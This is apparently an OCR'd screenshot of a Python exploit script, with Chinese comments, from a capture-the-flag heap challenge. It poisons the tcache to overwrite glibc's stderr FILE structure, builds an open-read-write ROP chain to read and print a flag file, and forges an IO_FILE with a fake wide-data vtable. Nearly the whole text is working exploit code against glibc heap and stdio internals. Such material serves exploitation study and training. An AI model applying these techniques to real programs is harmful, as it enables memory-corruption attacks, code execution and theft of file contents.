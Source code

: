    ```py
   add()
   free(1)
   free(7)
   
   payload = fd_glibc32(tcache_key,IO_2_1_stderr__addr)
   edit(8,len(payload),payload)    # 覆盖next指针
   pause()
   add()   #1
   add()   #IO_2_1_stderr 7
   
   # ORW
   syscall = read_addr+16
   flag = heap_addr+0x958
   
   # open(0,flag)
   orw =p64(pop_rdi_ret)+p64(flag)
   orw+=p64(pop_rsi_ret)+p64(0)
   orw+=p64(pop_rax_ret)+p64(2)
   orw+=p64(syscall)
   # orw =p64(pop_rdi_ret)+p64(flag)
   # orw+=p64(pop_rsi_ret)+p64(0)
   # orw+=p64(open_addr)
   
   # read(3,heap+0x1010,0x30) 
   orw+=p64(pop_rdi_ret)+p64(3)
   orw+=p64(pop_rsi_ret)+p64(heap_addr+0x1010)     # 从地址 读出flag
   orw+=p64(pop_rdx_r12_ret)+p64(0x30)+p64(0)
   orw+=p64(read_addr)     
   
   # write(1,heap+0x1010,0x30)
   orw+=p64(pop_rdi_ret)+p64(1)
   orw+=p64(pop_rsi_ret)+p64(heap_addr+0x1010)     # 从地址 读出flag
   orw+=p64(pop_rdx_r12_ret)+p64(0x30)+p64(0)
   orw+=p64(write_addr) + b"./flag\x00\x00"
   
   edit(3,len(orw),orw)    #堆上写入ORW
   
   # ========== 伪造IO_FILE ==========
   # chunk_addr = heap_addr + 0x2760     #当前large bin 的地址
   file = p64(0xfbad208b) + p64(0)         # _flags
   file+= p64(0) + p64(0)                  #_IO_read_end    _IO_read_base
   file+= p64(0) + p64(0) + p64(0) #_IO_write_base  _IO_write_ptr _IO_write_end
   file+= p64(0) + p64(0)                  #_IO_buf_base    _IO_buf_end
   file+= p64(0) * 8                       #_IO_save_base ~ _codecvt
   file+= p64(heap_addr) + p64(0)*2        #_lock   _offset  _codecvt
   file+= p64(heap_addr + 0x7a0)           #_wide_data
   file+= p64(0) *3                        #_freeres_list ~ __pad5
   file+= p64(1) + p64(0)*2                # _mode  _unused2 (2dword)
   
   file+=p64(IO_wfile_jumps_addr - 0x18)   #vtable
   
   
   # # ========== stack change ==========
   # # file+= orw
   
   # 覆盖 IO_2_1_stderr
   edit(7,len(file),file)
   
   #伪造 _IO_wide_data_2
   # ========== _IO_wide_data_2 ==========
   _wide_vtable = heap_addr + 0x7b0
   rdx_data     = heap_addr + 0x7b0
   stack_change = heap_addr + 0x8a0
   ```